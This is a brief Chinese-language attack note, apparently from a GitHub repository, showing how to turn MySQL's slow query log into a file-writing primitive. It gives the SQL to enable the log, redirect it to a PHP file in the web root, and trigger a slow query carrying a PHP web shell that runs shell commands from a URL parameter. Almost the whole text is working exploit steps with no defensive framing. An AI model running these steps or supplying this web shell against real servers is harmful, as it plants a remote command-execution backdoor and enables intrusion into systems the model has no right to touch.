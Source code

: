# 原理

简单的说就是在mysql中，查询超过10秒的语句会被写到慢查询日志文件中去，一般默认是不开启的。利用这个特性就可以进行文件写入

# 利用

首先查询slow的配置。

```sql
show variables like '%slow_query_log%';
```

然后

```sql
set global slow_query_log=1;
```

然后设置log日志的位置，设置为web目录下

```sql
set global slow_query_log_file='C:\\phpStudy\\WWW\\cs.php';
```

触发慢查询日志

```sql
select  '<?php echo system($_GET["cmd"]);?>' or sleep(11);
```